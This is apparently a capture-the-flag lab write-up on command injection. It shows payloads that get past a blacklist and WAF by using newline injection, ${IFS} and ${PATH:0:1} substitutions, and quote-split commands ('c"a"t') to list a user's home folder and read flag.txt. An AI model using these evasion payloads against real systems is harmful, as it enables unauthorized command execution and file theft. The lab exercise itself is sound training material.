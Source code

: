 ```yaml
---
description: >-
  Use what you learned in this section find the content of flag.txt in the home
  folder of the user you previously found.
---
```


# Bypassing Blacklisted Commands

We continue to build up on our command in order to bypass the blacklist.&#x20;

First lets list the files inside the user 1nj3c70r. We add `${PATH:0:1}1nj3c70r` to our command:

```bash
ip=127.0.0.1%0a{ls,-la}${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see the `flag.txt` is indeed in the home folder.

Now all we have to to is retrieve the content from the file. To this we need to use the `cat` command.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Since some basic commands are in the blacklist, if we just insert cat we won't be able to use it in order the see the content of the `flag.txt`.

That's why we have to "break" the command with double-quotes in order to by pass the WAF:

{% code overflow="wrap" %}
```bash
ip=127.0.0.1%0ac"a"t${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
{% endcode %}

The command will be interpreted like this:

```bash
ping -c 1 127.0.0.1; cat /home/1nj3c70r/flag.txt
```


